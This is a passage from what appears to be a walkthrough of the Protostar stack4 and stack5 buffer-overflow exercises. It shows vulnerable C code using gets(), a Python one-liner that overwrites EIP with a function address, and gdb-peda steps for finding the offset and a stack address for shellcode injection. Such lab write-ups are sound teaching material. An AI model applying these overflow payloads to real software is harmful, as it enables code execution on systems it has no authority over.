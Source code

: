   char buffer[64];

  gets(buffer);
}
{% endhighlight %}
Vulnerability
From the code above we can see a win function that doesnt get called in usual code flow, because we have an overflow that can overwrite EIP, we can overflow up to EIP then throw the address of the uncalled function in there for it to jump to.
Exploit:
{% highlight bash %}
(python -c "print 'A'*76 + '\xf4\x83\x04\x08'";) | ./stack4
{% endhighlight %}
# Stack Five
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{% endhighlight %}
Vulnerability
The application from the code is incredibly small as we can see. We will have to introduce code in the form of shellcode and get it to execute within memory by manipulating jump calls.
Exploit:
{% highlight bash %}
# Finding our offset
gdb-peda$ pattern_create 130
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAk'
<crash in local gdb>
gdb-peda$ pattern_offset 0x41344141
1093943617 found at offset: 76
gdb-peda$ 
# Getting shellcode

# Getting a stack address
(gdb) x/10s $esp
0xbffffcc0:	 'B' <repeats 36 times>
0xbffffce5:	 "\375\377\277&\006\377\267\260\372\377\267(\033\376\267\364\177", <incomplete sequence \375\267>
0xbffffcf9:	 ""
0xbffffcfa:	 ""
0xbffffcfb:	 ""


# Putting it all together
# offset + address on stack + nops + shellcode